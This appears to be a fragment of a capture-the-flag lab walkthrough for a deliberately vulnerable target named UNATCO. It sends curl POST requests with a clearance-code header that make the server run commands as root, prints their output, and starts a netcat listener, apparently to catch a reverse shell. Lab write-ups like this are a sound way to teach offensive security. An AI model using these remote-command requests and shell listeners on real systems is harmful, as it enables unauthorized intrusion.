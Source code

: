 `nano /etc/hosts`

```jsx
10.10.41.58     dx1liberty.thm UNATCO
```

`curl -iLX GET -D unatcoresponse.txt http://UNATCO:23023`

```jsx
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: text/plain
Date: Thu, 14 Nov 2024 08:06:14 GMT
Content-Length: 90

UNATCO Liberty Island - Command/Control

RESTRICTED: ANGEL/OA

send a directive to process 
```

`curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=cat+%2Fvar%2Fwww%2Fhtml%2Fbadactors.txt' http://UNATCO:23023`

```jsx
apriest
aquinas_nz
cookiecat
craks
curley
darkmattermatt
etodd
gfoyle
grank
gsyme

[REDACTED] - MORE
```

`curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=whoami' http://UNATCO:23023`

```jsx
http://UNATCO:23023
HTTP/1.1 202 Accepted
Access-Control-Allow-Origin: *
Content-Type: text/plain
Date: Thu, 14 Nov 2024 08:08:10 GMT
Content-Length: 5

root
```

`nc -nlvp 11222`

```jsx
listening on [any] 11222 ...
```
